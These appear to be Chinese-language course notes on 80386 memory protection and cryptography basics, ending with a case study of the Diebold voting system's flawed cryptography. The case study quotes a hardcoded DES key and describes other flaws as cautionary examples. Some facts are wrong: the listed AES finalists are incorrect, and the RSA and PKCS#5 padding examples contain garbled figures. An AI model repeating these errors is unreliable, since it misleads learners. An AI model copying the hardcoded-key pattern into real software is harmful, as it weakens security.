- 这样，操作系统内核决定哪个环可以运行I/O操作。通常，操作系统将IOPL设置为0，意味着只能由内核中的代码进行I/O操作。

问题：如果I/O操作没有受到保护，会有什么问题？

### # 6页级保护
- 分页机制（下图是4KB页面的示意图）
图：分页机制
- 分段和分页如何一起工作？
    * 仅使用页面级保护。
    * 页面级保护可以与分段保护一起使用。在这种情况下，由分段机制产生的线性地址将被输入到分页机制中，并最终转换为物理地址。
    * 当启用分页时，80386首先评估段保护，然后评估页面保护。如果处理器在段或页面级别检测到保护违规，则无法执行请求的操作；而是发生保护异常。
- 页面级保护：根据两个特权级别限制对页面的访问：
- 监管模式（U/S标志为0）（最高权限）用于操作系统或执行程序，其他系统软件（如设备驱动程序）和受保护的系统数据（如页表）。
- 用户模式（U/S标志为1）（最低权限）用于应用程序代码和数据。
- 当处理器处于监管模式时，它可以访问所有页面；当处于用户模式时，它只能访问用户级页面。
- 段特权级别与页面特权级别的映射如下：
- 如果处理器当前的CPL为0、1或2，则处于监管模式；
- 如果CPL为3，则处于用户模式。
- 页面类型（读/写保护）
- 页面级保护机制识别两种页面类型：
  * 只读访问（R/W标志为0）。
  * 读/写访问（R/W标志为1）。
- 当处理器处于监管模式并且寄存器CR0中的WP标志清除时（在复位初始化后的状态），所有页面都可读可写（写保护被忽略）。
- 当处理器处于用户模式时，只能写入可读/写入的用户模式页面。
- 可读/写或只读的用户模式页面是可读的。
- 从用户模式无法读取或写入监管模式页面。
- 任何违反保护规则的尝试都会引发页面错误异常。

### ## 页目录项和页表项
- 用户/监管和读/写保护都适用于页目录项和页项。
- 第2位（U/S位）用于用户/监管保护。
- 第1位（R/W位）用于读/写保护。

### # 7 作业问题
1. 为什么我们需要在CPU中进行访问控制，而我们已经在操作系统中进行了访问控制。80386需要保护什么？如果我们不保护它们，会出现什么问题？
2. 在Linux中，普通用户无法修改/etc/shadow。这是由操作系统中的访问控制所强制执行的。如果CPU不执行任何访问控制，请解释普通用户如何修改/etc/shadow。请至少描述两种不同的方法。
3. 为什么程序不能直接写入内核内存？如果该程序以root权限运行会怎样？
4. 用户级程序需要修改内核内存吗？请列举至少3种场景，其中内核内存是用户级程序的结果之一。
5. 为什么操作系统中需要系统调用？为什么不能将其视为库函数？操作系统中实现系统调用的典型方法有哪些？
6. 在80386 CPU中，哪些寄存器需要受到保护，只有特权代码才能修改它们？如果它们没有受到保护会怎样？
7. 在设计访问控制系统之前，需要确定主体、客体、操作和安全策略。在80386的访问控制中，主体、客体和操作是什么？选择了哪些类型的安全策略，以及为什么选择这些策略？
8. 80386中的一致位的目的是什么？
9. RPL的目的是什么？
10. 段描述符中的哪些信息用于访问控制？
11. 同一物理内存是否可能属于两个不同的特权级？
12. 如果一个程序将数据复制到位于段末尾附近的缓冲区，是否可能由于缓冲区溢出而导致段溢出？
13. 一个进程的内存空间如何与另一个进程隔离？
14. 为什么两个不同的进程可以使用相同的地址（例如0xF8A60000）而不必担心互相覆盖数据？
15. 80386保护模式是否在访问控制中使用能力？ 能力在哪里使用？
16. 操作系统如何限制所有I/O操作只能在内核中执行？
17. 请描述我们在课堂上讨论80386保护模式时经历的设计过程。 我们提出了哪些关键设计问题，又是如何解决它们的？

### # 密码学基础
### ## 1 秘密密钥加密
- 约定和术语
  - 明文:
  - 密文:
  - 加密:
  - 解密:
  - 密码分析:

秘密密钥加密也被称为对称密钥加密：用于加密的密钥与用于解密的密钥相同。

### ### 1.1 古典密码系统
- 单字母替代密码
  - 明文单元根据一种规则被替换为密文。这些“单元”可以是单个字母、字母对、字母三元组、以上混合等等。接收者通过执行逆替代来解密文本。
  - 示例：映射：A->D，B->E，以此类推，加密：HELLO -> KHOOR
  - 缺点：这种密码可以很容易地通过频率分析破解。在任何语言中，字符的频率是不同的。例如，在英语中，'z'出现的频率比't'要低得多。尽管每个字符在替代密码中被映射到另一个字符，但它们的频率可以暴露出来。
- 多字母替代密码：使用多个替代字母表。
  - 恩格玛机更复杂，但本质上仍然是多字母替代密码。
- 恩格玛机。
- 置换密码
  - 明文的单位按照不同且通常相当复杂的顺序重新排列，但单位本身保持不变。相比之下，在替代密码中，明文的单位在密文中保持相同的顺序，但单位本身会被改变。
  - 例子
```
HELLO WORLD --> HLOOL --> HLOOLELWRD ELWRD
```
- 一次性密码本（参见维基百科）
  - 发明于1917年
  - 用于低带宽
  - 用于军事
  - 美国和前苏联之间的热线使用一次性密码本。
  - 在安全性方面是完美的加密方案。

#### 1.2 DES和AES
- DES（数据加密标准）历史：
  - Horst Feistel（IBM）由于研究爱好而创建了“Lucifer”分组密码。
  - 后来，“路西法”成为了IBM的一个重要举措，IBM对其进行了修订，将其命名为DSD-1。
  - 1974年：IBM决定响应由NBS（国家标准局）发布的加密标准要求。这意味着IBM将被要求放弃其专利权，实质上将算法无偿提供给全世界。
  - 1974年初，NSA提出与IBM合作开发DSD-1。NSA的顶级密码分析师将分析DSD-1并评估该算法。IBM应允许NSA控制加密系统的实施。IBM接受了这个提议。
  - Horst Feistel的Lucifer规定了一个128位的密钥，但NSA不喜欢这个长度，将其缩减为64位，即8个字节。IBM在每个字节中使用了一位作为“奇偶校验”。这样就将密钥的大小减小到了56位。
  - 1977年，最终算法被接受为标准，被称为DES。
- DES技术细节
  - 56位密钥，64位块，16轮。
  - 分组密码：64位块
  - 暴力破解攻击 $2^{56}$
  - 1998年，电子前沿基金会（EFF）用25万美元建造了一台“DES破解”机器。它在56小时内破解了一个DES密钥。
  - 1999年，distributed.net和电子前沿基金会合作，在22小时15分钟内公开破解了一个DES密钥。
  - 3DES: C = E1 [ D2 [ E1 [P] ] ]
    * 3DES使用2个密钥（有些使用3个密钥），112位足够。
    * 为什么3DES没有成为另一个标准？
    * 它很慢：基本上，我们必须连续运行DES算法三次。
- AES（高级加密标准）
  - 1997年1月，NIST宣布他们希望选择一个DES的继任者，即AES。
  - 1997年9月，NIST正式呼吁为AES寻找新的算法。这些算法都是块密码，支持128位的块大小和128、192、256位的密钥大小。在公告发布时，这样的密码算法非常罕见。
  - 在随后的九个月里，来自多个国家的十五种不同设计的算法被创建并提交。
  - 密码学家对这些算法进行了调查。调查重点是安全性、性能、可行性和其他因素。在这个过程中，一些算法因为安全性的弱点而被淘汰，一些算法因为性能或其他因素而被淘汰。
  - 1999年8月，NIST宣布将候选算法从十五个缩减到五个。这五个算法被普遍称为“AES决赛选手”，它们是由密码学家设计的，被社区认为是知名且受人尊敬的。
  * Rijndael（发音为“Rain Doll”）.
  * IDEA（国际数据加密算法），被PGP使用
  * Blowfish（布鲁斯·施奈尔）.
  * RC5（里维斯特）.
  * CAST-128，被PGP使用.
  - 这些入围者经历了进一步的深入分析和密码分析的环节.
  - 2000年10月2日，NIST宣布Rijndael被选为拟议的AES。
- 注意：AES和许多其他知名加密算法（除了一次性密码本）的安全性从未得到证明。它们被认为是安全的，因为它们已经被许多密码学家彻底研究过，迄今为止没有人能够破解它们。

### ### 1.3 攻击一个密码系统
- 仅密文攻击：攻击者试图从密文中找到明文.
- 已知明文攻击：攻击者已经获得了一些（明文，密文）对，他们使用这些已知对来找出其他他们不知道的东西，比如密钥和未知明文.
- 选择明文攻击：攻击者可以选择任意明文，并要求加密系统生成一个密文。攻击者可以多次进行此操作。然后攻击者尝试使用这些信息来破解加密方案.

在现实生活中，以上三种情况都可能发生。因此，要成为一个强大的加密系统，加密系统应该能够抵抗以上攻击。
- 问题：经典加密系统能够抵抗以上攻击吗？

### # 2 分组密码操作模式
分组密码对固定长度的分组进行操作，例如，DES对64位分组进行操作，AES对128位分组进行操作。 要加密长度超过分组大小的消息，消息必须被分成多个分组，因此分组密码可以对每个分组进行操作。 有许多方法可以将分组密码应用于这些分组；这些不同的方法被称为操作模式。 详细信息请参阅维基百科。本节中的图表来自维基百科（我们只展示了加密部分，解密部分可以根据加密部分轻松推导出来）。

### ## ●电子密码本模式 (ECB)

- 模式图
- 问题：重复块和重新排列攻击。

### ## ●密码块链接 (CBC)

- IV：初始化向量。不需要保密。
- 即使相同的消息被重复发送，密文每次都会完全不同，这是由于IV的原因。
- 一直是最常用的操作模式。

## ●密码反馈（CFB）

将块密码转换为流密码

- 并行化
    - 加密不能并行化
    - 解密可以并行化

## ●输出反馈（OFB）

也将块密码转换为流密码

- 并行化
    - 加密/解密不能并行化，但由于明文或密文仅用于最后的异或运算，块密码操作可以提前执行，一旦明文或密文可用，最后一步可以并行执行。

## •计数器（CTR）

Counter (CTR) mode encryption

也将块密码转化为流密码

- 计数器可以是任何能够产生一个长时间内不重复序列的简单函数，虽然实际上计数器是最简单和最流行的。CTR允许解密具有随机访问属性。

填充。因为块密码作用于固定大小的单位，但消息的长度各不相同，一些模式（主要是CBC）要求在加密之前对最后一个块进行填充。存在几种填充方案。

- • 向明文中添加空字节。必须小心以便能够恢复原始明文的长度。
- • 原始DES方法：添加一个单一的一位，然后添加足够的零位来填满块；如果消息以块边界结束，将添加一个完整的填充块。
- • PKCS#5标准：每个填充字节包含添加的字节数。

以下是一个使用PKCS#5填充方案的128位分组密码的示例（在第一个示例中，填充中使用0x09，因为填充中添加了9个八位字节；在第二个示例中，使用0x10，因为填充中添加了16个八位字节）：

| 原始明文 1: | 0a23bac45092f7 |
|---|---|
| 填充后的明文（PKCS#5）: | 0a23bac45092f70909090909090909 |
| 原始明文 2: | 0a23bac45092f793273a7fe9093eaa8 |
| 填充后的明文（PKCS#5）: | 0a23bac45092f793273a7fe9093eaa0810101010101010101010101010 |

CFB、OFB和CTR模式不进行填充。密文的大小与明文的大小相同。流密码的这个特性使它们适用于需要加密的密文数据与原始明文数据大小相同的应用程序，以及以流式形式传输数据并且添加填充字节不方便的应用程序。

### 3 单向散列函数

#### 3.1 单向散列函数

- 单向散列函数
    - 将可变长度的输入缩减为固定长度（128或160位）的输出
    - 符号：M ⇒ H(M)

- 单向性质
    - 容易：M ⇒ H(M)。
    - 计算上不可行：H(M) ⇒ M。
    - 影响：
        * 即使 M1 和 M2 只有一个位的差异， H(M1)和 H(M2)也会非常不同。
        * 如果你知道M和H(M)，但在H(M)中改变了一个位，你将无法找到一个能生成这个修改后哈希值的M`。

- 无碰撞性质：计算上不可行找到两个散列到相同哈希值的消息。
    - 对于m位哈希函数，使用暴力攻击，只需要大约 2^(m/2)个随机选择的消息，在找到两个具有相同值的消息之前（就像生日问题一样）。
    - MD5已经被破解：它不再是无碰撞的！

- 为什么我们想要无碰撞的特性？
    - 例子：我们可以构造 M1 和 M2，使得 h(M1) = h(M2)。 M1和 M2 的含义可以完全相反。
    - M1="Alice欠Kevin 100美元"。 M2="Alice欠Kevin 100万美元"。 Alice签名 h( M1)，但不签名 h(M2)。 如果 h(M1) = h(M2)，Alice会有麻烦。
    - 即使哈希不是无冲突的，但找到这样一个有意义的 M1和 M2并不容易。然而，可能会找到 h(M1, r1) = h(M2, r2)，其中 r1和 r2是随机数。

- 哈希算法
    - MD2（消息摘要）- 由Rivest
    - MD3确实存在，但在其发表或使用之前就被MD4取代了。
    - MD4（消息摘要）- 由Rivest比MD2更快，但发现MD4的一个版本存在弱点。
    - MD5（消息摘要）- 由Rivest
        * 比MD4稍慢一点。
        * 128位哈希
    - SHA（安全哈希算法）
        * 1993年NIST发布了SHA
        * 1995年发现了SHA中的一个未公开的缺陷。
        * 提出了SHA-1：最流行的算法之一。
        * SHA-1：160位哈希值。
        * SHA-2：SHA-256、SHA-384和SHA-512。
        * MD5、SHA-0、SHA-1不是无碰撞的
            * SHA-0中的碰撞需要进行2的39次操作。
            * SHA-1完整哈希操作中的碰撞要比基于哈希长度的2的80次操作的暴力攻击少得多。
        * 寻找MD5碰撞的时间复杂度为2的32次。

#### 3.2 MAC：消息认证码

- 消息认证：确保消息确实是由声称的发送者发送的，而不是由其他方发送或被其他方修改。

- MAC算法
    - 可以由哈希函数构造（例如HMAC）
    - 也可以由块密码算法构造（例如OMAC、CBC-MAC和PMAC）。

- HMAC：散列消息认证码（或带密钥散列）
    HM C_K(m) = h((K ⊕ opad) || h((K ⊕ ipad)||m))

    - 需要一个秘密密钥（SHA，MD5不需要秘密密钥）
    - 将单向哈希函数h作为黑盒构建模块。单向哈希函数通过对数据块进行基本压缩函数的迭代来进行。我们用B表示这些块的字节长度（例如，MD5和SHA1的B=64）。
    - ipad = 0x363636...3636和opad = 0x5c5c5c...5c5c。它们的长度为B，即哈希块的大小。ipad和opad的值对算法的安全性并不重要，但它们被定义为彼此之间具有较大的汉明距离，因此内部和外部密钥之间的共同位较少。
    - K是一个秘密密钥，用额外的零填充到长度B。如果K比B字节长，我们将使用hash(K)作为密钥。
    - HMAC-MD5，HMAC-SHA1。
    - 需要知道秘密密钥才能进行验证。

#### 3.3 单向哈希函数的应用

- 伪随机数生成器（PRNG）：单向哈希函数可以用于此目的。这是通过将（秘密）随机种子与计数器组合并进行哈希运算来完成的：h(seed, c), h(seed, c+1), h(seed, c+2)等等。
- 流密码：使用单向哈希函数作为伪随机数生成器生成一串伪随机数。用这串数字与明文进行异或运算。在解密中，可以使用计数器和种子（种子即为加密密钥）构造相同的流。
- 密码验证：为了验证密码，我们不需要在数据库中存储明文密码。 我们可以在数据库中存储密码的哈希值。 这样，即使整个数据库被对手攻击，密码信息仍然是安全的，如果使用了强大的单向哈希函数。
- 进行承诺：爱丽丝和鲍勃玩一个简单的在线游戏。 每个人提供一个整数。如果两个整数的和是奇数，爱丽丝赢；否则鲍勃赢。 然而，无论谁先公布数字，都肯定会输。 使用单向哈希函数，他们可以先承诺他们的数字，然后互相公布数字。 除非他/她能找到哈希函数的碰撞，否则在承诺之后，没有人可以改变他/她的主意。
- 检测变化：为了确保系统安全，有必要定期检查重要的文件/配置是否被修改。 我们可以使用单向哈希来实现这一点。 这是Tripwire思想的主要思路。

#### 单向哈希链

- S/KEY一次性密码方案。
- 广播认证

#### 默克尔树

- 给文档加上时间戳
    - * 在杂志或报纸上发布哈希值。
    - * 每个文档一个哈希值：代价高。
    - * 每1000个文档一个哈希值：节省成本。
    - * 使用默克尔树可以实现这样的成本节省。
- 在有丢包的信道中进行广播认证
    - * 对每个数据包进行签名是代价高昂的
    - * 将它们全部一起进行哈希，然后再哈希结果不能容忍数据包的丢失。
    - * 使用默克尔树可以解决这个问题。

### 4 公钥密码学

#### 4.1 历史

- 第一个非对称密钥算法是由克利福德·科克斯（当时是英国政府通信总部的一名新近数学研究生和新员工）在20世纪70年代初秘密发明的。
- 1976年，迪菲和赫尔曼假设了这个系统，但没有证明这样的算法存在。
- 1978年，Rivest、Shamir和Adleman在麻省理工学院发明了RSA，这是对科克斯方案的重新发明。
- 此后，又发展出了几种非对称密钥算法，但最广为人知的仍然是Cocks/RSA。
- 另一个算法是ElGamal（Taher ElGamal），它依赖于离散对数问题的（类似且相关的）困难性。
- 第三种是基于椭圆曲线的一组算法，最早由Neal Koblitz在80年代中期发现。
- NSA也声称在20世纪60年代发明了公钥密码学；然而，目前（截至2004年）很少有支持他们主张的证据。
- Merkle-Hellman（MH）是由Ralph Merkle和Martin Hellman于1978年发明的最早的公钥加密系统之一。尽管它的思想很优雅，比RSA简单得多，但它已经被破解。（Merkle-Hellman背包问题）。
- RSA的故事：Steven Levy的《密码学》书

#### 4.2 Diffie-Hellman 密钥交换

- Diffie-Hellman 密钥交换
    - 该算法最早由Whitfield Diffie和Martin Hellman于1976年发表
    - 在有限域中的离散对数是一个困难的问题：找到 \( x \)，使得 \( a^x = b \pmod{n} \)
    - 该协议
        1. Alice和Bob在一个大小为 \( p \) 的有限循环群 \( G \) 上达成一致，并选择一个生成元 \( g \) 在 \( G \) 中。
        2. Alice向Bob发送 \( g^x \mod p \)。
        3. Bob向Alice发送 \( g^y \mod p \)。
        4. Alice计算 \( (g^y)^x \mod p \)。
        5. Bob计算 \( (g^x)^y \mod p \)。
        6. Alice和Bob都得到 \( g^{xy} \mod p \)。
    - \( g \) 可以很小。
    - \( x \) 和 \( y \) 必须很大。
- 将Diffie-Hellman 密钥交换转化为公钥系统
    - 公钥：爱丽丝发布 \( g, p, \) 和 \( (g^x \mod p) \) 作为她的公钥。
    - 私钥：\( g, p, \) 和 \( x \)。
    - 加密：
        1. 鲍勃生成 $y$, 并生成一个密钥 $K=(g^x)^y \mod p$。
        2. 鲍勃使用密钥 $K$ 和对称密钥加密方法（如AES）加密M。
        3. 鲍勃将密文和 $g^y \mod p$ 发送给爱丽丝。
    - 解密：
        1. 爱丽丝生成 $K=(g^y)^x \mod p$。
        2. 爱丽丝使用 $K$ 解密密文。
- ElGamal算法：该算法与上述算法类似，但不依赖于任何对称密钥加密方案。
    1. 令 $h = g^x \mod p$。
    2. 公钥：$(p, g, h)$
    3. 私钥：$x$
    4. 加密：生成一个随机 $k$, 令 $c_1 = g^k \mod p$, $c_2 = m * h^k \mod p$。
    5. 解密：$c_2 / c_1^x \mod p$. 需要注意的是 $c_2 / c_1^x = m * h^k / g^{kx} = m \mod p$。

#### 4.3 RSA算法

- RSA算法的数学背景
    - 扩展欧几里得算法：给定 $x$, 找到 $y$, 使得 $x · y = 1 \mod m$. 扩展欧几里得算法可以高效地找到这个问题的解决方案。
    - 欧拉定理：对于任何与 $n = pq$ 互质的数 $a$, $a^{(p-1)(q-1)} = 1 \mod pq$。
        * 为什么这非常有用？
        * 设 $z = k(p - 1)(q - 1) + r$, 我们有 $a^z = a^{k(p-1)(q-1)} * a^r = a^r \mod pq$。
        * 换句话说：如果 $z = r \mod (p - 1)(q - 1)$, 那么 $a^z = a^r \mod pq$。
        * 特殊情况：如果 $z = 1 \mod (p - 1)(q - 1)$, 那么 $a^z = a \mod pq$。
        * 我们可以使用欧拉定理简化 $a^z \mod pq$。

- RSA算法.
    - 令 $n = pq$, 其中 $p$ 和 $q$ 是两个大素数.
    - 公钥 $(e, n)$, 其中 $e$ 与 $(p - 1)(q - 1)$ 互质.
    - 私钥 $(d, n)$, 使得 $ed = 1 \mod (p - 1)(q - 1)$. 可以使用扩展欧几里得算法计算出 $d$。
    - 加密：$c = m^e \mod n$。
    - 解密：$c^d = (m^e)^d = m^{ed} \mod n$。

- RSA的安全性：取决于因子分解的难度：当$n$很大时，因子分解 $n = p * q$ 是困难的。

- RSA示例
    - 假设$n=22 = 2*11$.
    - 假设$e=3$, 找到满足 $e * d = 1 \mod 10$的$d$, 我们得到$d= 7$
    - 加密: M = 7: 7^3 = 49 * 7 = 5 * 7 = 13 mod 22.
    - 解密: 13^7 = 13^2 * 13^2 * 13^2 * 13 = (15 * 15) * (15 * 13) = 5 * 19 = 7 mod 22
    - 符号 M = 9: 9^7 = 92 * 92 * 92 * 9 = 15 mod 22.

- RSA性能问题:
    - 使用大数进行指数运算：例如，让我们计算 123^{32} mod 678. 我们不需要做 32次乘法，而是采取以下步骤：
        - 123^2 = 15129 = 213 mod 678,
        - 123^4 = 213^2 = 621 mod 678,
        - 123^8 = 621^2 = 537 mod 678,
        - 123^{16} = 537^2 = 219 mod 678,
        - 123^{32} = 219^2 = 501 mod 678.
    - 同样地，我们可以轻松计算 123^{54} mod n. 54 = (1100110)_2 = (((((1) * 2 + 1) * 2) * 2 + 1) * 2 + 1) * 2. 因此, 123^{54}= (((((123)^2 * 123)^2 * 123)^2 * 123)^2 * 123. 我们将在每一步进行模运算，只要中间结果大于 n. 我们不会计算一个巨大的数 123^{54}然后在最后进行一次模运算。总成本是8次乘法和8次除法（除法是由模运算引起的）。
    - 性能：如果指数为512位，则乘法和除法的次数与512成线性关系。

- RSA中选择的 e的值。
    - e不需要是一个大数。
    - 在实践中，3和65537经常被选为 e的值。

- RSA的效率：非常昂贵
    - 比DES（软件）慢100倍
    - 比DES（硬件）慢1000倍

### 5 数字签名

#### 5.1 数字签名算法

- 数字签名的动机
    - 物理签名
    - 特性：真实性、不可伪造、不可重用、不可更改、无法否认。

- RSA签名方案
    - 公钥（验证密钥）： (e, n)。
    - 私钥（签名密钥）： (d, n)。
    - 签名: M^d mod n。
    - 验证： $(M^d)^e \text{ mod } n$。如果签名是真实的，结果应该等于 $M$。

- DSA（数字签名算法）：
    - 1991年，由NIST提出作为DSS（数字签名标准）
    - 受到RSA及其支持者的批评
    - 由NSA开发
    - 免版税
    - DSA比RSA慢

- 避免重复使用数字签名：使用时间戳进行签名。
- 对哈希值进行签名。实际上，我们只对消息的哈希值进行签名，而不是消息本身，因为消息可能很大，对于大消息来说，签名速度相当慢。

#### 5.2 公钥证书

- 将公钥与身份关联起来。
    - 中间人攻击
        * 如何确保鲍勃的公钥真的是鲍勃的？
        * 将身份与公钥绑定
    - 分层证书机构（例如，X.509），
    - 本地信任模型（例如，SPKI），
    - 统计信任网络（例如，PGP和GPG）。

- 证书
    - 包括：持有人的身份，持有人的公钥，CA的签名，过期日期
    - X.509证书
        * 可以从公共已知数据库获取证书
        * 树形结构
        * 如果你信任其中一个，你可以验证所有的证书。

一个示例X.509证书：
数据：
    版本： 1 (0x0)
    序列号： 7829 (0x1e95)
    签名算法： md5WithRSAEncryption
    颁发者： C=ZA, ST=Western Cape, L=Cape Town, O=Thawte Consulting cc,
             OU=Certification Services Division,
             CN=Thawte服务器CA/emailAddress=server-certs@thawte.com
    有效期
        起始日期： 1998年7月9日16:04:02 GMT
        结束日期： 1999年7月9日16:04:02 GMT
    主题： C=美国, ST=马里兰州, L=帕萨迪纳, O=Brent Baccala,主题公钥信息：
公钥算法：rsaEncryption
RSA公钥：（1024位）
模数（1024位）：
00:b4:31:98:0a:c4:bc:62:c1:88:aa:dc:b0:c8:bb:
33:35:19:d5:0c:64:b9:3d:41:b2:96:fc:f3:31:e1:
66:36:d0:8e:56:12:44:ba:75:eb:e8:1c:9c:5b:66:
70:33:52:14:c9:ec:4f:91:51:70:39:de:53:85:17:
16:94:6e:ee:f4:d5:6f:d5:ca:b3:47:5e:1b:0c:7b:
c5:cc:2b:6b:c1:90:c3:16:31:0d:bf:7a:c7:47:77:
8f:a0:21:c7:4c:d0:16:65:00:c1:0f:d7:b8:80:e3:
d2:75:6b:c1:ea:9e:5c:5c:ea:7d:c1:a1:10:bc:b8:
e8:35:1c:9e:27:52:7e:41:8f
指数：65537 (0x10001)
签名算法：md5WithRSAEncryption
93:5f:8f:5f:c5:af:bf:0a:ab:a5:6d:fb:24:5f:b6:59:5d:9d:
92:2e:4a:1b:8b:ac:7d:99:17:5d:cd:19:f6:ad:ef:63:2f:92:
ab:2f:4b:cf:0a:13:90:ee:2c:0e:43:03:be:f6:ea:8e:9c:67:
d0:a2:40:03:f7:ef:6a:15:09:79:a9:46:ed:b7:16:1b:41:72:
0d:19:aa:ad:dd:9a:df:ab:97:50:65:f5:5e:85:a6:ef:19:d1:
5a:de:9d:ea:63:cd:cb:cc:6d:5d:01:85:b5:6d:c8:f3:d9:f7:
8f:0e:fc:ba:1f:34:e9:96:6e:6c:cf:f2:ef:9b:bf:de:b5:22:
68:9f

#### 公钥加密和数字签名的应用

- 使用公钥进行密钥交换
  - 目标：艾丽斯和鲍勃想要达成一致的密钥K，该密钥可以用作会话密钥。
  - 会话密钥：仅在通信的持续时间内存在。
  - 艾丽斯将她的公钥发送给鲍勃，鲍勃也将他的公钥发送给艾丽斯。
- 传输层安全性（TLS）及其前身安全套接字层（SSL）。
  - 基于公钥基础设施（PKI）。
  - 为互联网等网络上的通信提供安全性。
  - 广泛应用于网页浏览、电子邮件、即时通讯和语音传输等应用。
  - TLS的一个重要用途是通过HTTP来保护由HTTP承载的全球范围内的网络流量，形成HTTPS。
  - OpenSSL是SSL和TLS协议的开源实现。核心库（用C编程语言编写）实现了基本的加密功能，并提供了各种实用函数。

#### 正确实现密码学并不容易：案例研究

##### Diebold电子投票系统：案例研究

背景：美国各地的市政府和州政府正在采用无纸化电子投票系统来取代过时的打孔卡和机械投票系统。许多不同的供应商设计了这种类型的电子投票系统。约翰霍普金斯大学的研究团队对其中一种电子投票系统，即Diebold系统进行了安全分析。该报告指出了一些密码学实现不正确的地方。我们将使用这份报告作为我们的案例研究，以了解在实际系统中集成密码学时可能出现的问题。在本讲义中，我们将这份报告称为JHU报告。

- 密钥管理
JHU报告：在我们分析的Diebold代码中，智能卡的密钥和用于加密选票的密钥都是源代码中的静态条目。这意味着相同的密钥在每个投票设备上使用。因此，能够入侵单个投票设备的攻击者将能够访问运行相同软件的所有其他投票设备的密钥。
从CVS日志中，我们可以看到自1998年12月开始使用此特定密钥以来，AccuVote-TS版本3的CVS树，我们假设该密钥在此之前很长时间就在使用了。尽管Jones报告称供应商可能自1997年起就意识到其代码中的密钥管理问题[16, 17]，但我们的研究表明结果这个设计缺陷从未得到解决。
```
#define DESKEY ((des_key*) "F2654hD4")
```

- 加密算法
JHU报告：第二组问题与Diebold代码加密选票和审计日志的方式有关。保存选票的文件使用数据加密标准（DES）算法的CBC模式进行加密。DES和CBC模式的使用存在问题，如下所述。
在对“指控44”的回应中，Diebold表示“比DES更强大的压缩形式存在，但作者暗示密钥可以在短时间内恢复是故意误导的。”我们假设Diebold的意思是存在更强大的加密算法可用，因为DES不是一种压缩算法。

- 完整性
JHU报告：Diebold代码不使用MAC，而是使用非加密的循环冗余校验（CRC）来检测文件是否被篡改。这完全不安全，我们的论文第15页有讨论。在安全文献中，使用CRC而不是MAC一直被认为是一个非常严重的错误。
在迪博尔德系统中，在加密之前，对明文数据进行了16位循环冗余校验（CRC）的计算。然后，将这个CRC与密文一起存储在文件中，并在解密和读取数据时进行验证。这个过程由TSElection/RecordFile.cpp中的ReadRecord和WriteRecord函数处理。由于CRC是一个无密钥的公共函数，它对数据的完整性保护没有任何意义。事实上，通过以未加密的形式存储它，首次加密数据的目的（不泄露有关内容的任何信息）被破坏了。标准行业做法是首先加密要存储的数据，然后计算密钥的加密校验和（如HMAC-SHA1）来检测对明文的任何篡改。还要注意每个条目都有一个时间戳，可以用来检测重新排序，尽管应该添加序列号来检测记录删除。

##### 模式

JHU报告：我们注意到“DES正在使用CBC模式，需要一个初始化向量来确保其安全性。”我们继续展示迪博尔德代码没有提供必要的初始化向量。对于这个问题的详细解释非常技术性；我们将感兴趣的读者引用到《对对称加密的具体安全处理：DES模式操作分析》。
其次，DES正在使用CBC模式，需要一个随机的初始化向量来确保其安全性。这里的实现总是使用零作为其初始化向量。这可以通过在TSElection/RecordFile.cpp中调用DesCBCEncrypt来说明；由于倒数第二个参数为NULL，DesCBCEncrypt将使用全零的初始化向量。为了正确实现CBC模式，必须使用强随机数源来每次加密生成一个新的初始化向量。适当强大的随机数可以从许多不同的来源中得到，从定制硬件到对用户行为的累积观察。

##### 随机数

JHU报告：虽然选民的身份与选票不存储在一起，但每张选票都有一个序列号...由线性同余随机数生成器生成...以静态信息为种子。
Diebold回应：这里不需要“安全”。此代码的唯一目的是为了在显示和报告中伪随机化选票的顺序，这是一些州要求的。
琼斯（来自爱荷华大学的道格·琼斯也回应了Diebold的回应）：Diebold是错误的。这里需要安全。如果伪随机数序列已知，并且实际进入投票亭的选民顺序已记录下来（正如一个选民监察员可以轻松地做到的），那么我们可以从个别选票的报告中恢复任何特定选民的选票。这允许在选举中心工作的内部人员与选民监察员合作，检查此报告（我会用口袋相机拍摄报告），以确认付费选民是否按照要求的方式来投票来赚取报酬。依赖于与选民监察员合作的选票购买计划已有多年历史，因此，在这里，强大的随机化方案是合理的！我曾经担任过选民监察员，我知道完美的记录很难保持，但我也知道如果我能说服几个选民在他们的选票上签名，写入预选的投票或在司法留任选票上进行有趣的是非投票模式，我可以更正我的记录。

##### 智能卡

JHU报告：在审查Diebold代码时，我们观察到智能卡不执行任何加密操作。这本身就是一个立即引起警惕的信号。智能卡相对于经典的磁条卡的最大优势之一是其能够在内部执行加密操作，并具有物理保护的密钥。由于缺乏加密，智能卡无法对投票终端进行安全认证。这意味着没有任何东西可以阻止攻击者在投票终端中使用自己的自制智能卡。人们可能自然而然地想知道攻击者制作这样一个自制智能卡有多容易。
首先，我们注意到商业上可以购买到可编程智能卡和智能卡读卡器，通过互联网以小批量和合理的价格。其次，了解投票终端和合法智能卡之间的协议的攻击者可以轻松实现一个与之相同协议的自制卡。

##### DVD保护：案例研究

